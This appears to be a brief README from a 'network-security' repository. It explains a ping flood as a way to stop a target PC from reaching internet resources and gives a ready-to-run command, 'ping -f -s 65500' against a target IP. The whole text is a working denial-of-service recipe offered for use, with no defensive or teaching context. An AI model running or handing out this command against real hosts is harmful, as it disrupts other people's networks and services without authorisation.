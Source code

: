 # network-security
## ping flooding
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource
command:
```
  ping -f -s 65500 ip
```
